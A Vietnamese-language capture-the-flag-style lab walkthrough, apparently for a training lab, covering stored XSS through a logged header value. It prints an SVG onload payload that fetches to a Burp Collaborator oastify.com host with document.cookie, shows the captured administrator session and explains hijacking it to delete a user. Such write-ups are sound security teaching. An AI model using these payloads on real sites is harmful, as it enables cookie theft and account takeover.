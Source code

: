 ```
'"><svg/onload=fetch`//tnkm1m6s3npedbxjfy3dcj1p1g7av0js9g06nwbl\.oastify.com`>:lZwpRCmLa4IIJabOU2k3hDLPdHoJ29QW
```
- Đây là kỹ thuật **Out-of-band(OOB)**, ta sử dụng nó để gửi dữ liệu bên ngoài

#### Exploit
- Bôi đen payload, đến tab **Inspector** thêm **payload** và **Apply change** nó sẽ tự động **encode** trước khi gửi

```
'"><svg/onload=fetch(`//yourburp-colaborator.oastify.com/${encodeURIComponent(document.cookie)}`)>:lZwpRCmLa4IIJabOU2k3hDLPdHoJ29QW
```
- **Burp Collaborator** > **Pool now** để nhận **request** đến
- Quan sát các **request HTTP** > **Request to Collaborator**

```http
GET /session%3Dadministrator%253avfMmmrwrLTU0r2YLvXdBSFpLGzBpjBWi%3B%20secret%3DWb58yzF404gApH4l3tDsh2jGWCQvLAWE%3B%20session%3Dadministrator%253avfMmmrwrLTU0r2YLvXdBSFpLGzBpjBWi HTTP/1.1
Host: mkawxxl3vht8dfszluv0bdidd4jv7qvf.oastify.com
```
- Decode lấy **session** của **administrator** để **login** với vai trò **admin**

```
administrator:vfMmmrwrLTU0r2YLvXdBSFpLGzBpjBWi
```
- Sử dụng **Devtool** hoặc **cookie editor** để thay đổi **cookie** của **site** hiện tại
- Xóa người dùng `carlos`

#### Explain
- **View log** bằng account **admin**
- Ta thấy payload đã được tiêm vào đây

```html
<div>Integrity violation detected from '"&gt;
  <svg onload="fetch(`//mkawxxl3vht8dfszluv0bdidd4jv7qvf.oastify.com/${encodeURIComponent(document.cookie)}`)"></svg>
</div>
```
- Khi **admin** view log => **XSS** kích hoạt gửi dữ liệu đến **Burp Collaborator**

---
Goodluck! 🍀🍀🍀 


